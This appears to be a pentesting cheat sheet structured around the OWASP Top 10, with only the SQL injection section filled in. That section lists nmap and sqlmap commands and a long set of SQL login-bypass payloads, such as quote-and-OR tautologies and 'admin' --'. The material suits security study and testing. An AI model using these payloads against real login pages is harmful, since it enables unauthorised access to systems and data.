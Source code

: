 # [OWASP Cheat Sheet](https://cheatsheetseries.owasp.org/index.html)
# [Web Application Attacks](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application)

# [OWASP](#owasp)
  - [Injection](#injection)
  - [Broken Authentication](#broken-authentication)
  - [Sensitive Data Exposure](#sensitive-data-exposure)
  - [XML External Entity](#xml-external-entity)
  - [Broken Access Control](#broken-access-control)
  - [Security Misconfiguration](#security-misconfiguration)
  - [Cross-site Scripting](#cross-site-scripting)
  - [Insecure Deserialization](#insecure-deserialization)
  - [Components with Known Vulnerabilities](#components-with-known-vulnerabilities)
  - [Insufficent Logging & Monitoring](#insufficent-logging-and-monitoring)

## OWASP

### Injection

[SQL INJECTION - PORTSWINGER](https://portswigger.net/web-security/sql-injection)

- Enum using nmap
  >
  > nmap -sV --script=http-sql-injection <target>
  >
- Using jsql
- Using sqlmap with login-page
- Capture the request using burp suite, and save the request in a file.
  >
  > sqlmap -r request.txt
  >
- Crawl a page to find sql-injection.
  >
  > sqlmap -u http://example.com --crawl=1
  >
- Login bypass
  >
  > ‘or 1=1- -
  >
  >‘ or ‘1’=1
  >
  >‘ or ‘1’=1 - -
  >
  >‘–
  >
  >' or '1'='1
  >
  >-'
  >
  >' '
  >
  >'&'
  >
  >'^'
  >
  >'*'
  >
  >' or ''-'
  >
  >' or '' '
  >
  >' or ''&'
  >
  >' or ''^'`
  >
  >`’ or ‘‘*’
  >
  >"-"
  >
  >" "
  >
  >"&"
  >
  >"^"
  >
  >"*"
  >
  >" or ""-"
  >
  >" or "" "
  >
  >" or ""&"
  >
  >" or ""^"
  >
  >" or ""*"
  >
  >or true--
  >
  >" or true--
  >
  >' or true--
  >
  >") or true--
  >
  >') or true--
  >
  >' or 'x'='x
  >
  >') or ('x')=('x
  >
  >')) or (('x'))=(('x
  >
  >" or "x"="x
  >
  >") or ("x")=("x
  >
  >")) or (("x"))=(("x
  >
- known Username
  >
  >admin’ - -
  >
  >admin’) - -
  >
- Using error-bases DB enumeration
  >
  >Add the tick '
  >
  >Enumerate columns
  >
Using order by
  [Total OSCP Guide](https://sushant747.gitbooks.io/total-oscp-guide/content/sql-injections.html)

### Broken Authentication

### Sensitive Data Exposure

### XML External Entity

### Broken Access Control

### Security Misconfiguration

### Cross-site Scripting

### Insecure Deserialization

### Components with Known Vulnerabilities

### Insufficent Logging & Monitoring
